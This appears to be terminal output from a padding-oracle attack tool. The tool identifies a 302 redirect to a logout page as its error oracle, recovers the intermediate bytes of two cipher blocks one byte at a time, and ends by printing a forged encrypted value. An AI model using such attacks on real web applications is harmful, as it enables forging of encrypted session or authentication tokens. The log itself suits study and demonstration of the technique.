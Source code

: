 ```

INFO: No error string was provided...starting response analysis

*** Response Analysis Complete ***

The following response signatures were returned:

-------------------------------------------------------
ID#     Freq    Status  Length  Location
-------------------------------------------------------
1       1       200     12227   N/A
2 **    255     302     0       ../logout.php?err=1
-------------------------------------------------------

Enter an ID that matches the error condition
NOTE: The ID# marked with ** is recommended : 2

Continuing test with selection 2

[+] Success: (196/256) [Byte 8]
[+] Success: (148/256) [Byte 7]
[+] Success: (92/256) [Byte 6]
[+] Success: (41/256) [Byte 5]
[+] Success: (218/256) [Byte 4]
[+] Success: (136/256) [Byte 3]
[+] Success: (150/256) [Byte 2]
[+] Success: (190/256) [Byte 1]

Block 2 Results:
[+] New Cipher Text (HEX): 23037825d5a1683b
[+] Intermediate Bytes (HEX): 4a6d7e23d3a76e3d

[+] Success: (1/256) [Byte 8]
[+] Success: (36/256) [Byte 7]
[+] Success: (180/256) [Byte 6]
[+] Success: (17/256) [Byte 5]
[+] Success: (146/256) [Byte 4]
[+] Success: (50/256) [Byte 3]
[+] Success: (132/256) [Byte 2]
[+] Success: (135/256) [Byte 1]

Block 1 Results:
[+] New Cipher Text (HEX): 0408ad19d62eba93
[+] Intermediate Bytes (HEX): 717bc86beb4fdefe

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------

```
